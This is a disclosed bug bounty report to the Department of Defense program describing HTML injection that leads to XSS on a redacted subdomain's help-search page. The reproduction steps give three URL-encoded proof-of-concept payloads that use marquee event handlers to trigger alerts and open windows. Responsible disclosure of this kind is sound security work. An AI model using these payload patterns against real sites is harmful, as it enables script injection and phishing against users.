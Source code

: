 # HTML Injection leads to XSS on███

## Report Details
- **Report ID**: 874228
- **URL**: https://hackerone.com/reports/874228
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-14T13:22:43.123Z
- **Disclosed**: 2020-07-30T17:46:24.596Z

## Reporter
- **Username**: lemonoftroy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
###Hello Team!

###I just found a HTML injection in subdomain████ that leads XSS with several payloads, let me show you the POC.

##POC 1 (Firefox 76)

█████

---

##POC 2 (Chrome 81)

███████

---


## Impact
An attacker could use the domain to trick users to execute malicious javascript code.

## Step-by-step Reproduction Instructions

* 1. Write the following URL :  

```
https://███/help-leave/help/index.htm#rhsearch=%3Cmarquee%20loop=1%20onfinish=alert(document.domain)%3Etest%3C%2Fmarquee%3E&ux=search
```

* 2. With this payload you can inject links :

```
https://█████/help-leave/help/index.htm#rhsearch=%3Cmarquee%3E%3Cu%3E%3Ca%20href%3D%22http%3A%2F%2Fwww.google.com%22%20onmouseover%3Dalert(document.domain)%3EXSS%20HACKERONE%20%2F%20lemonoftroy%3C%2Fa%3E%3C%2Fmarquee%3E&ux=search
```
* 3. With this payload you can open a window:

```
https://█████/help-leave/help/index.htm#rhsearch=%3Cmarquee%3E%3Ca%20href=%22http://google.com%22%20onmouseover=window.open(%22https://www.google.com%22)%3Etest%20for%20hackerone%3C/marquee%3E&ux=search
```




##Browsers Verified In:
Firefox 76 / Chrome 81




Let me know if you can't reproduce the issue:

Regards

## Impact

XSS, Open Redirect.

## Attachments
No attachments
